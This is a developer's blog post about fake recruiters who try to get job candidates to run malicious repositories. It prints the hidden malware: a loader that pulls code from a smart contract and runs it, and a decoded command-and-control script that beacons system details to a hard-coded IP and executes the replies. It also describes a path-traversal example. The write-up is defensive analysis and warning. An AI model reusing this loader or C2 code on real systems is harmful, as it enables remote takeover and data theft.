









<h1 class="page-title">
Brave New World of Scammers Targeting Developers
</h1>

<h2 class="page-subtitle">
  Scammers are getting smarter and bolder
</h2>

_Author: [Toufiqur Rahaman Chowdhury](https://alien45.github.io/cv)_ • Published: 2026-01-21 • [← Back to Journal Home](../)

---

In my [previous article](../2025-07-25-targeted-dev-attack/), I went deep into the rabbit hole of scammers targeting developers pretending to be employers and running a supply chain attack using malicious NPM packages. Since then I have encountered two more attempts by scammers targeting me, each of them using new tactics and bolder approaches.

In this article, I will describe how I narrowly avoided a major security breach and once again put my investigative hat on, explain the clever new tactics used by the scammer and dig into the code. This is as much as a learning experience for me as it is to document and warn others about it. While the article is very technical, reading about the details of the events may also be helpful for non-technical readers to learn and potentially avoid online hacking attempts and overall be more cautious dealing with strangers online.

Please note that while I have been repeatedly targetted, I was cautious and lucky enough to have sniffed the red flags in time to avoid being hacked. However, I came across LinkedIn posts by other who were not as lucky.


## Table of Contents

- [Timeline of Events](#timeline-of-events)
  - [Incident 1: Live interview and RCE from Smart Contract](#incident-1-live-interview-and-rce-from-smart-contract)
    - [December 16, 2025](#december-16-2025): Initial contact & scheduling a meeting
    - [December 17, 2025](#december-17-2025): Live attempt to hack my computer
    - [December 18, 2025](#december-18-2025): Investigation of the code
- [The Initial Discovery: A Backdoor in Plain Sight](#the-initial-discovery-a-backdoor-in-plain-sight)
- [The Payload Delivery System: A Covert Smart Contract](#the-payload-delivery-system-a-covert-smart-contract)
- [Decoding the `getMemo()` Payload](#decoding-the-getmemo-payload)
  - [The Decoded Backdoor Payload](#the-decoded-backdoor-payload)
  - [Other Malicious Code](#other-malicious-code)
- [January 2026: An Attack Hidden Inside Normal Hiring Rituals](#january-2026-an-attack-hidden-inside-normal-hiring-rituals)
- [Safety Tips](#safety-tips)
- [Conclusion](#conclusion)
- [About the Author](#about-the-author)

## Timeline of Events

### December 16, 2025

I received a new connection request from an account named Juan Ibañez. As usual I accepted the connection and sent an intro message to the person asking how they came across my profile.

<figure>
  
  <figcaption>Figure 1: Intro message I sent to the fake employer</figcaption>
</figure>

In reply, Juan mentioned he's recruiting for a Full Stack Developer position at a betting company.

<figure>
  
  <figcaption>Figure 2: First message from the fake employer, Juan Ibañez</figcaption>
</figure>

I replied that I am not open to working in the gambling industry. I figured that would be the end of the conversation.

However, Juan mentioned there are other open opportunities and asked me to schedule the **initial meeting** using a Calendly.com link.

<figure>
  
  <figcaption>Figure 3: Linkedin message from fake employer with Calendly.com invite link. </figcaption>
</figure>
PS: The logo in the Calendly.com page has since been changed, which indicates they're possibly still using it but pretending to be working for another company called Nubion.

I booked a slot for the next day for the "initial meeting". However, immediately seeing a different name (Austin Pugh instead of Juan Ibañez), I felt it's a bit odd. While I didn't immediately flag it as suspicious, I had a feeling I needed to be cautious going forward.

<figure>
  
  <figcaption>Figure 4: Email with calendar event with a Google Meet invitation link.</figcaption>
</figure>

### December 17, 2025

I joined the meeting on time and had my camera and audio on. A couple of minutes later Austin Pugh joined with camera off initially. But then he turned on his camera for a couple of minutes or so during the meeting. I did previously have interviews with legit employers who didn't have their camera on. So, I didn't think of it as a big deal but mentally added it as another reason to be cautious.

I was asked to describe my background and experiences; and was asked a bunch of short questions like "How many years of experience do you have with XYZ tech?" or "Can you tell me about your experience with XYX tech". These sounded like a very typical initial screening call by recruiters.

However, as we spoke I noticed a subtle impatience in Austin. When he asked me about one of the skills (I don't remember exactly what it was now) that I didn't have prior experience with. He skipped over it as if I had the skill even though he said that's one of the core technologies used by the company. He seemed very eager to move forward get over with the questions. His attitude caused my brain to add this as the third signal to be even more cautious that I felt before.

Afer that, Austin told me he wanted to walk me through the project that I will be working on. He shared his screen where he opened a [BitBucket repo](https://bitbucket.org/beejern-space/beejern/src/main/) and then asked me to clone the repo and run it on my local machine.

<figure>
  
  <figcaption>Figure 5: Screenshot of the malicious BitBucket.org repository.</figcaption>
</figure>

This immediately triggered my spidey-sense. I told Austin that this is not within the scope of today's meeting. I will clone the repo later. He insisted me to clone and run the project while on the call.

This confirmed all my suspicions. I no longer had any doubt that this was an attempt to compromise my computer. Recruiters typically do not have the technical depth to walk through code in real time, let alone "walk through the code". I immediately told him "You are a scam. So, I am going to drop the call." and then dropped the call. Austin or Juan never contacted me after that nor did they try to defend their position.

### December 18, 2025

After dropping the call I immediately downloaded the project repo as a zip file to investigate further. Upon investigation with the help of AI, I discovered a completely new method of incorporating remote code execution (RCE) in a particularly clever way by storing the RCE script in a smart contract on the Binance Smart Chain. In the next chapter, I will discuss in detail what I did to look for suspicious code and how discovered this clever method of attack.

## The Initial Discovery: A Backdoor in Plain Sight

Since there were no `.vscode/tasks.json` file and from my [previous article](../2025-07-25-targeted-dev-attack/) I knew two things:

1. The backend/NodeJS side is where to look for malicious code first.

2. It's relatively safe to open the project in VSCode (because no `.vscode/tasks.json`) locally even though it might not be safe to run it. However, I still opened it in restricted mode by clicking on `No, I don't trust the authors`.

<figure>
  
  <figcaption>Figure 6: VSCode prompt whether to trust the project or open in restricted mode.</figcaption>
</figure>

<figure>
  
  <figcaption>Figure 7: VSCode restricted mode vs trusted mode.</figcaption>
</figure>

After scanning through the backend code, the first and most critical vulnerability I found was in `/backend/routes/routes.js`. At first glance, it looked like a standard Express.js routes file. However, two functions, `ContentAsWeb` and an anonymous async function that called it, immediately stood out.

```javascript
function ContentAsWeb(payload) {
  if (!payload) {
    // ...
    return;
  }
  try {
    const ensureWeb = new Function("require", payload);
    ensureWeb(require);
  } catch (err) {
    // ...
  }
}
```

The use of `new Function()` is a massive red flag. It takes a string and executes it as JavaScript code. In this context, it was being used to execute a `payload` with access to the `require` function, meaning the executed code could import any Node.js module (`fs`, `child_process`, etc.) and gain full control over the server.

But where was this `payload` coming from?

### The Payload Delivery System: A Covert Smart Contract

The payload wasn't hardcoded. Instead, it was fetched from a smart contract on the Binance Smart Chain (BSC). The configuration in `/backend/config.js` pointed to the contract address: `0x9C4964C3601909d0eeE970a8a9cAE4836Bdf27EF`.

The anonymous function in `routes.js` was responsible for fetching this payload:

```javascript
(async () => {
  // ...
  try {
    // NFT_TX_IDS was an array:
    const nftDataPromises = NFT_TX_IDS.map((txId) => contract.getMemo(txId));
    const nftDataResults = await Promise.all(nftDataPromises);
    const nftContent = nftDataResults.join("");
    ContentAsWeb(nftContent); // Execute the fetched code
  } catch (err) {
    // ...
  }
})();
```

This code calls a function named `getMemo()` on the smart contract with IDs `2` and `3`, joins the results, and executes them. This is a clever way to hide a malicious payload. It's not in the codebase itself but is dynamically loaded from the blockchain, making it harder to detect with static analysis.

### Decoding the `getMemo()` Payload

When I checked the contract on BscScan, it was **unverified**. The creator had deliberately hidden the source code. This is the biggest red flag for any smart contract.

To see what `getMemo()` returned without running the malicious app, I used AI to generate a simple HTML file with `ethers.js` to call the function directly from my browser and analyze the output.

```html
<!doctype html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Smart Contract Memo Checker</title>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/ethers/6.7.0/ethers.umd.min.js"></script>
    <style>
      body {
        font-family:
          -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Helvetica,
          Arial, sans-serif;
        line-height: 1.6;
        padding: 20px;
        background-color: #f4f4f9;
        color: #333;
      }
      h1 {
        color: #1a1a1a;
      }
      #output {
        background-color: #fff;
        border: 1px solid #ddd;
        padding: 15px;
        border-radius: 5px;
        white-space: pre-wrap;
        word-wrap: break-word;
        font-family: "Courier New", Courier, monospace;
      }
      .loading {
        color: #888;
      }
      .error {
        color: #d32f2f;
      }
      .success {
        color: #388e3c;
      }
    </style>
  </head>
  <body>
    <h1>Smart Contract Inspector</h1>
    <p>
      Querying contract
      <strong>0x9C4964C3601909d0eeE970a8a9cAE4836Bdf27EF</strong> on the Binance
      Smart Chain.
    </p>
    <div id="output">
      <p class="loading">Fetching data from the blockchain...</p>
    </div>

    <script>
      async function checkContract() {
        const outputDiv = document.getElementById("output");
        const contractAddress = "0x9C4964C3601909d0eeE970a8a9cAE4836Bdf27EF";
        const bscRpcUrl = "https://bsc-dataseed1.binance.org";

        const contractAbi = [
          "function getMemo(uint256 transactionId) external view returns (string memory)",
        ];

        try {
          // 1. Set up the provider and contract
          const provider = new ethers.JsonRpcProvider(bscRpcUrl);
          const contract = new ethers.Contract(
            contractAddress,
            contractAbi,
            provider,
          );

          outputDiv.innerHTML = '<p class="loading">Calling getMemo(2)...</p>';

          // 2. Call the getMemo function for transaction ID 2
          const memo2 = await contract.getMemo(2);
          outputDiv.innerHTML = `<p class="success"><strong>Result for getMemo(2):</strong></p><pre>${memo2}</pre>`;

          outputDiv.innerHTML += '<p class="loading">Calling getMemo(3)...</p>';

          // 3. Call the getMemo function for transaction ID 3
          const memo3 = await contract.getMemo(3);
          outputDiv.innerHTML += `<p class="success"><strong>Result for getMemo(3):</strong></p><pre>${memo3}</pre>`;

          // 4. Join them, just like the malicious backend does
          const combinedPayload = memo2 + memo3;
          outputDiv.innerHTML += `
                    <hr>
                    <h3>Combined Payload (What the server would execute):</h3>
                    <pre>${combinedPayload}</pre>
                `;
        } catch (error) {
          console.error("Error fetching from contract:", error);
          outputDiv.innerHTML = `<p class="error"><strong>Error:</strong> Could not fetch data from the contract. Check the browser console for details.</p><pre>${error.message}</pre>`;
        }
      }

      checkContract();
    </script>
  </body>
</html>
```

This revealed the true payload: a minified script that establishes a persistent Command & Control (C2) channel.

### The Decoded Backdoor Payload

Here is the formatted payload:

```javascript
const axios = require("axios");
const os = require("os");
let instanceId = 0;

// The RCE function
function errorFunction(e) {
  try {
    return new Function("require", e)(require);
  } catch (e) {}
}

// Collects and sends system info to the attacker
async function checkServer() {
  try {
    const sysInfo = {
      hostname: os.hostname(),
      macs: Object.values(os.networkInterfaces())
        .flat()
        .filter(Boolean)
        .map((e) => e.mac),
      os: `${os.type()} ${os.release()} (${os.platform()})`,
    };

    // Pings the attacker's C2 server
    const t = await axios.get("http://87.236.177.9:3000/api/errorMessage", {
      params: { sysInfo, exceptionId: "env19475", instanceId },
    });

    // If the server responds with a command, execute it
    if ("error" === t.data.status) {
      errorFunction(t.data.message || "Unknown error");
    } else if (t.data.instanceId) {
      instanceId = t.data.instanceId;
    }
  } catch (e) {}
}

// Run immediately and then every 5 seconds
try {
  checkServer();
  setInterval(checkServer, 5000);
} catch (e) {}
```

This script does three things:

1.  **Exfiltrates Data**: It collects the user's hostname, MAC addresses, and OS details.
2.  **Establishes C2 Channel**: It sends this data to an attacker-controlled server (`87.236.177.9`) every 5 seconds.
3.  **Executes Remote Commands**: It listens for a response. If the response contains a `message`, it executes that message as code, giving the attacker full remote control.

### Other Malicious Code

The RCE was the main payload, but the project was littered with other vulnerabilities that indicate malicious intent.

- **Broken JWT Authentication**: The `verifyJWT` function correctly used `jwt.verify()` but then completely ignored the result. It proceeded to use `jwt.decode()` to get the user payload. `decode()` does **not** verify the token's signature, meaning an attacker could forge a token with any data they want (e.g., `{"role": "cpadmin"}`) to gain unauthorized access.

- **Path Traversal**: An endpoint, `getImage`, was vulnerable to path traversal. An attacker could provide a path like `../../../../etc/passwd` to read sensitive files from anywhere on the server.

- **Deprecated Crypto Packages**: The project used the `crypto` package from npm, which has been deprecated for years in favor of Node.js's built-in `crypto` module. It also used `ethereumjs-tx`, which is deprecated in favor of `@ethereumjs/tx`. Using outdated, unmaintained crypto libraries is a massive security risk and a clear sign that the author is not a legitimate developer.

## January 2026: An Attack Hidden Inside Normal Hiring Rituals

In January 2026, I encountered another attempt that relied far more on social engineering than technical complexity. The setup appeared ordinary: a supposed recruiter contacted me, asked a few legit-sounding questions and then assigned a small take-home task, asking candidates to open a public GitHub repository in VS Code, make **"at least one meaningful improvement"** and submit a pull request.

<figure>
  
  <figcaption>Figure 8: First message from Firyal AS, the fake recruiter.</figcaption>
</figure>

<figure>
  
  <figcaption>Figure 9: LinkedIn message about available roles and suspiciously high compensation.</figcaption>
</figure>

<figure>
  
  <figcaption>Figure 10: LinkedIn message with brief about the role and typical recruiter questions.</figcaption>
</figure>

<figure>
  
  <figcaption>Figure 11: LinkedIn message with Google Docs link of the task details and invitation for interview after submission.</figcaption>
</figure>

<a href="assets/january-review-task.jpg" target="_blank">
  <figure>
    
    <figcaption>Figure 12: A detailed Google Docs document mimicking a real take-home coding task.</figcaption>
  </figure>
</a>

Several hours before this task was even sent, a completely separate LinkedIn account, unrelated to the role or company, sent me a generic message about a position I had never applied for. At the time it felt random. The following day, when I had not submitted any pull request, the same account sent a second message. In hindsight, These messages were likely intended to serve as a simple activity check to confirm whether I was active on LinkedIn and reading messages before and after the task delivery.

<figure>
  
  <figcaption>Figure 13:  LinkedIn message from an unrelated account.</figcaption>
</figure>
<figure>
  
  <figcaption>Figure 14:  LinkedIn message from an unrelated account.</figcaption>
</figure>

Notice the links to job posts are not the same. Both jobs were posted 3-4 months prior. This means the job posts may have been legit and the attacker simply used expired job posts for a ping message.

Before cloning the repository, I inspected its contents and found a `.vscode/tasks.json` file configured to execute a remote script automatically on project load. This meant that simply opening the folder in VS Code or similar editors (Windsurf, Cursor, etc.) would have triggered remote code execution, without running the application or interacting with the code at all. Unlike the December incident, the pressure to open the project was deferred rather than immediate. The task explicitly stated that a follow-up interview would involve reviewing the code **in VSCode** and explaining the submitted changes, which would certainly require opening the repository in VSCode and executing the RCE script. At the time I inspected it, the remote script itself was minimal and benign, which strongly suggests it was intended as a placeholder. The more plausible scenario is that the payload would have been swapped or activated closer to the interview stage, once the target had demonstrated compliance and trust.

It is also worth noting that by the time I inspected the repository, which had already been deleted and recreated at least once, **multiple pull requests had already been submitted by other developers** as part of this task. This strongly suggests that the setup was convincing enough for some candidates to clone and open the project locally, likely without realizing that simply doing so could trigger remote code execution.

## Safety Tips:

Based on my experiences, here are some tips to help you stay safe in the wild west of the online job-hunting space. These are as much a checklist for me as they are general advice for any developer.

### Editor and Workspace Safety

- First and foremost, **ALWAYS** check if the project contains a `.vscode/tasks.json` file.
  - If it does, check whether it contains any scripts that may run on-open.
  - If unsure, it is best to not open the project in VSCode or any similar modern editors on your local machine.
  - Also inspect:
    - `.vscode/settings.json`
    - `.vscode/extensions.json`
    - Any workspace file (`*.code-workspace`)
- **NEVER** open an unfamiliar repository directly in VSCode as your first step.
  - Inspect it first using your browser or by downloading it as a zip and reviewing files manually.
  - If you must open a project locally, always choose "**restricted mode**" and never trust the workspace until you have audited it.

### Execution and Environment Isolation

- GitHub Codespaces is an excellent way to run or inspect untrusted projects in an isolated environment, without exposing your local machine.
  - With ~33 hours of runtime, the free version is more than sufficient for job-hunting needs.
- Run projects locally using containers (Docker, Podman etc) or VMs like VMWare or VirtualBox.
  - Do not assume containers are a perfect sandbox.
  - Containers share the host kernel and are not equivalent to a VM.
  - For high-risk inspections, prefer a full VM or Codespaces over Docker alone.
  - If you are paranoid about security, you can also consider using Qubes OS as your primary OS.

### Browser and Network Hygiene

- When inspecting suspicious projects, consider blocking outbound network access entirely.
  - For example, disable networking in a VM or container unless explicitly required.
- When running or opening any project in your browser, use incognito mode and disable extensions.
- Be cautious with browser-based blockchain tooling.
  - Never connect wallets or sign transactions when inspecting unfamiliar projects.
  - Use a separate browser profile or a throwaway wallet if interaction is unavoidable.

### Recruitment and Social Engineering Red Flags

- Be suspicious of recruiters who:
  - Push you to open or review code before a formal interview
  - Reuse old or expired job posts
  - Contact you from multiple, loosely related accounts
  - Avoid discussing company details beyond vague summaries
- Treat unsolicited follow-ups that align suspiciously with task deadlines as a red flag.
  - These are often used as activity or responsiveness checks rather than genuine interest.

## Conclusion

This project was not just poorly written; it was a deliberately crafted weapon. The combination of a remote code execution backdoor, a covert payload delivery system using an unverified smart contract, and multiple other critical vulnerabilities confirms this was an attempt to compromise my system. This incident is a stark reminder: **never trust and run code from an unknown source without a thorough security audit.**

What's really clever about this is that putting me on the spot during the call by asking me to clone the repository without giving me a chance to look through the code for any potential malicious intent. If I had not previously been attacked, as I mentioned in my [previous article](../2025-07-25-targeted-dev-attack/), I might have done it without realizing that this was an active attempt at hacking my computer and potentially doing a lot of harm not only to me but also to any of my current or future employers. The attackers are not only becoming clever at their tactics, but also becoming bolder to the point of even showing their face to make everything sound as legit as possible.

## About the Author

Toufiqur Rahaman Chowdhury is a full-stack software developer with over 8 years of experience building scalable web applications. He’s worked across frontend, backend, and blockchain systems.

🔗 [← Back to Journal Home](../)
• [CV](https://alien45.github.io/cv)
• [LinkedIn](https://www.linkedin.com/in/toufiq/)
• [GitHub](https://github.com/alien45)
• [Contact / Hire Me](https://alien45.github.io/cv/Toufiqur_Chowdhury_CV.pdf)

<link rel="stylesheet" href="../assets/style.css" />
<script type="text/javascript" src="../assets/script.js"></script>
